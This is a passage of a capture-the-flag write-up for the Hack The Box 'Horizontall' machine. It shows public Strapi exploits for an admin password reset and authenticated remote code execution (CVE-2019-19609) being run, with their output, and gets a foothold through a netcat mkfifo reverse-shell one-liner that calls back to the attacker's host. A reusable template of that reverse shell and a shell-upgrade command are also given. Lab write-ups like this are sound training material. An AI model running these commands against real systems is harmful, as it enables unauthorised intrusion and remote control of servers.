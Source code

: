 ![[Screen Shot 2022-01-10 at 3.30.10 PM.png]]

The first exploit that was used was the 50237.py exploit (Set password). This was used to set the password to 'password'.

```
❯ python3 50237.py
[*] strapi version: 3.0.0-beta.17.4
[*] Password reset for user: admin@horizontall.htb
[*] Setting new password
[+] New password 'password' set for user admin@horizontall.htb 
```

Then the next exploit was the 50238.py exploit (RCE Authenticated). The JWT token was obtained by signing in and getting the token through BurpSuite. Then the exploit was used to create a reverse shell on the box.

```
❯ ./50238.py http://api-prod.horizontall.htb eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxODM5OTA1LCJleHAiOjE2NDQ0MzE5MDV9.lDuFAv8wov8nWIiZup61QRbgPPtb-DoHCpT4Mrt_UQk "mkfifo /tmp/p; nc 10.10.14.99 3333 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p" 10.10.14.99

=====================================
CVE-2019-19609 - Strapi RCE
=====================================

[+] Successful operation!!!
Error: Couldn't setup listening socket (err=-3)
<html>
<head><title>504 Gateway Time-out</title></head>
<body bgcolor="white">
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

My favourite one-liner nc reverse shell >>

```
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```


#### Initial foothold
```
❯ nc -lvnp 3333

Connection from 10.10.11.105:48162
ls

api
build
config
extensions
favicon.ico
node_modules
package.json
package-lock.json
public
README.md

python -c 'import pty; pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ 
```

